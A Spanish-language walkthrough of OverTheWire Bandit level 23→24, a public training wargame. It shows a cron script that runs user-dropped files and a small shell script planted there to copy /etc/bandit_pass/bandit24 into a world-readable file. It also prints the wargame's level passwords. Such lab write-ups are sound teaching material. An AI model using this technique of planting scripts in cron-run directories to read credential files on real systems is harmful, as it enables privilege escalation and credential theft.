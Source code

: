 # Bandit Level 23 → Level 24

## Objetivo
Un programa se ejecuta automáticamente a intervalos regulares desde **cron**, el programador de trabajos basado en el tiempo. Busque en /**etc/cron.d/** la configuración y ver qué comando se está ejecutando.

**NOTA:** Este nivel requiere que crees tu propio primero shell-script. Este es un paso muy grande del que deberías estar orgulloso. ¡Tú mismo cuando superas este nivel!

**NOTA 2:** Tenga en cuenta que su script de shell se elimina una vez ejecutado, por lo que es posible que desee mantener una copia alrededor...

## Datos de acceso al nivel
* Servidor: ssh bandit23@bandit.labs.overthewire.org
* Usuario: bandit23
* Contraseña: QYw0Y2aiA672PsMmh9puTQuhoz8SyR2G

## Solución
``` bash 
bandit23@bandit:/$ cat /etc/cron.d/cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
bandit23@bandit:/$ cat /etc/cron.d/cronjob_bandit24.sh
cat: /etc/cron.d/cronjob_bandit24.sh: No such file or directory
bandit23@bandit:/$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash
myname=$(whoami)
cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done

bandit23@bandit:/$ cd /tmp/nvga02
bandit23@bandit:/tmp/nvga02$ nano nvgascript.sh
bandit23@bandit:/tmp/nvga02$ cat nvgascript.sh
cat /etc/bandit_pass/bandit24 > /tmp/nvga02/password
bandit23@bandit:/tmp/nvga02$ chmod 777 nvgascript.sh
bandit23@bandit:/tmp/nvga02$ touch password
bandit23@bandit:/tmp/nvga02$ chmod 666 password
bandit23@bandit:/tmp/nvga02$ cp nvgascript.sh /var/spool/bandit24/foo
bandit23@bandit:/tmp/nvga02$ cat password
'VAfGXJ1PBSsPSnvsjI8p759leLZ9GGar'
```

## Notas Adicionales
|Comando | Descripcion |
|-----|-------|
| nano | Abre un editor de tecto para editar. |
| chmod | Modifica los permisos de un archivo. |

## Referencias
* [nano](https://josesalazarpantoja.gitbooks.io/comandos-basicos-linux/content/comando-nano.html)
* [chmod](https://www.howtogeek.com/437958/how-to-use-the-chmod-command-on-linux/)

Fecha: 28/02/2023.